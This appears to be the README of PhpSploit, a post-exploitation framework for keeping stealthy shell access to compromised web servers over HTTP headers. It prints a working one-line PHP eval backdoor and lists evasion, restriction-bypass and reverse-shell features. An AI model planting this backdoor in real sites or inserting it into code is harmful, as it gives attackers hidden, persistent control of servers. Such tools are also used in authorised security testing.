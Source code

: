 ### PhpSploit: *Advanced post-exploitation framework* ###

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

#### Overview ####

The obfuscated communication is accomplished using HTTP headers under
valid client HTTP requests and relative web server's responses.

The physical backdoor is configurable and really tiny for furtivity purposes:
```php
<? @eval($_SERVER['HTTP_PHPSPL01T']) ?>
```

#### Features ####

- Nearly invisible by log analysis and NIDS signature detection
- Safe-mode and common PHP security restrictions bypass
- More than 20 plugins to automate post-exploitation tasks:
    - Run commands and browse filesystem, bypassing PHP security restrictions
    - Upload/Download files between client and target
    - Edit remote files through local text editor
    - Run SQL console on target system
    - Spawn reverse TCP shells
- Communications are hidden in HTTP Headers
- Loaded payloads are obfuscated to bypass NIDS
- Multi-request support for large payloads
- Highly configurable through dynamic settings engine
- HTTP/HTTPS Proxy support
- And even more...

#### Example #####
![Image](data/img/phpsploit-demo.png)

